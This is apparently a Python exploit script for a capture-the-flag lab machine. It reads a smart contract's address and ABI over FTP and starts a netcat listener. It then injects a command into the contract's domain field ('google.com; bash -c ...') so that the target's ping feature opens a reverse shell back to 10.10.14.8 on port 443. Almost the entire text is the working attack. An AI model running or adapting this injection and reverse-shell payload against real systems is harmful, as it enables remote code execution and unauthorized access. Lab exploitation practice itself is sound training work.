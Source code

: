 

    #!/usr/bin/env python3

    import json
    import sys
    import time
    import urllib.request
    from subprocess import Popen, PIPE
    from web3 import Web3

    infra_url = "http://10.10.10.142:9810"

    # Get address over FTP
    with urllib.request.urlopen('ftp://10.10.10.142/address.txt') as add_ftp:
        address = add_ftp.read().strip().decode()
    print(f"[+] Got address over FTP: {address}.")

    # Get json over FTP
    with urllib.request.urlopen('ftp://10.10.10.142/WeaponizedPing.json') as wp_ftp:
        wp = json.load(wp_ftp)
    print(f"[+] Got abi over FTP: {wp['abi']}")

    web3 = Web3(Web3.HTTPProvider(infra_url))
    if not web3.isConnected():
        print(f"[-] Failed to connect to {infra_url}")
        sys.exit()
    print(f"[+] Connected to web3 provider: {infra_url}")

    contract = web3.eth.contract(address=address, abi=wp['abi'])
    web3.eth.defaultAccount = web3.eth.accounts[5]

    print("[*] Starting listener on port 443")
    nc = Popen(("nc -nl 443"), shell=True)

    print(f"[*] Current domain value is: {contract.functions.getDomain().call()}")
    contract.functions.setDomain("google.com").transact()
    time.sleep(1)
    contract.functions.setDomain("google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'").transact()
    print(f"[+] Domain value now: {contract.functions.getDomain().call()}")
    print(f"[*] Sleeping to allow connection")
    time.sleep(4)
    contract.functions.setDomain("google.com").transact()

    time.sleep(.5)

    try:
        nc.poll()
        nc.wait()
    except:
        sys.stdout.write("\r")

    print(f"[+] Set domain value back to {contract.functions.getDomain().call()}")
